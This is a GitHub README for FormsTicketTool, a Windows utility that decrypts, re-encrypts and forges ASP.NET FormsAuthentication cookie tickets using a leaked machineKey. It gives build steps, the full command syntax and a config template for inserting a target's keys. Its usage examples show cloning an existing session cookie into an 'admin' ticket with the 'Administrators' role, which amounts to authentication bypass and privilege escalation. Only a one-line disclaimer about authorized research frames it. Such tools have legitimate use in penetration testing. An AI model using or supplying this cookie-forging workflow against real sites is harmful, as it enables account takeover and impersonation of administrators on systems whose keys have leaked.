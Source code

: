 # FormsTicketTool

> decrypt / encrypt / create **ASP.NET FormsAuthentication** tickets using leaked machineKeys.

## Overview

A small Windows tool for decrypt/encrypt/create cookie "sessions" (`FormsAuthenticationTicket `) when owning the machineKey.

---

## Build

**Requirements**

- Visual Studio (or `csc.exe` / `dotnet build`)
- .NET Framework 4.8
- Add reference: `System.Web`

> Prefer using Visual Studio for a single-click build.

Or **manual build steps**

1. Clone the repo:
   ```bash
   git clone https://github.com/4xura/FormsTicketTool.git
   cd FormsTicketTool
   ```

2. Open `FormsTicketTool.sln` in Visual Studio or compile manually:

   ```
   csc /r:System.Web.dll FormsTicketTool.cs
   ```

3. Copy `App.config.template` → `App.config`. Insert your target machineKey:

4. Build → `FormsTicketTool.exe` will appear in `/bin/Debug` or `/bin/Release`.

---

## Usage

```
FormsTicketTool.exe decrypt <COOKIE> [--json] [--utc]
FormsTicketTool.exe encrypt <EXISTING_COOKIE> <NEW_USER> <USERDATA> <MINUTES_VALID>
FormsTicketTool.exe create  <USERNAME> <USERDATA> <MINUTES_VALID> [isPersistent]
FormsTicketTool.exe gen-config <decryptionKey> <validationKey> [compatibilityMode] [outfile]
FormsTicketTool.exe info
```

Prints:

- default: TTL and local timestamps

- `--json` (optional): machine-friendly JSON

  ```json
  {"version":1,"name":"john.doe","issued":"2025-10-20T19:46:10.3973725+08:00","expires":"2025-10-20T19:56:10.3973725+08:00","persistent":true,"userdata":"Vistor","cookiePath":"/"}
  ```

- `--utc`  (optional): show timestamps in UTC instead of local

Usage examples:

```sh
# decrypt a cookie string
FormsTicketTool.exe decrypt 8CE190CA4584C2E0...

# clone cookie into admin with Administrators role
FormsTicketTool.exe encrypt 8CE190CA4584C2E0... admin "Administrators" 120
```

------

## Config Example

Pop the **machineKey** into `App.config.template` (rename to `App.config` for actual run):

```xml
<configuration>
  <system.web>
    <machineKey
      decryption="AES"
      decryptionKey="B26C371E..."
      validation="HMACSHA256"
      validationKey="EBF9076B..." />
  </system.web>
</configuration>
```

------

## Disclaimer

This project is for educational and authorized research only.